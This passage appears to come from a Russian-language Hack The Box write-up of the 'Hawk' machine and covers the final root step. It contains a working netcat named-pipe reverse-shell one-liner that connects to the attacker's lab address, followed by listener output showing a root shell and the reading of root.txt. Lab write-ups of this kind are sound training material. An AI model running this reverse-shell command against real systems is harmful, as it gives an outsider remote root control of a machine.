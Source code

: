 И напоследок, чтобы с чистой совестью отправить эту машину в утиль, получим root-сессию. Сделать это почти так же просто — для этого сперва создадим bash-reverse-shell на машине-жертве (чтобы не мучаться с "плохими" символами в веб-консоли):
```text
daniel@hawk:~$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 8881 >/tmp/f' > .sh3ll.sh
```

После чего запустим этот шелл, слушая при этом 8881-й порт:

[![port8082-browser-5.png]({{ "/assets/images/htb/hawk/port8082-browser-5.png" | relative_url }})]({{ "/assets/images/htb/hawk/port8082-browser-5.png" | relative_url }})
{: .center-image}

```text
root@kali:~# nc -lvnp 8881
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8881
Ncat: Listening on 0.0.0.0:8881
Ncat: Connection from 10.10.10.102.
Ncat: Connection from 10.10.10.102:35130.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
54f3e840????????????????????????
```

Hawk пройден :triumph:

![owned-user.png]({{ "/assets/images/htb/hawk/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/assets/images/htb/hawk/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/assets/images/htb/hawk/trophy.png" | relative_url }})
{: .center-image}
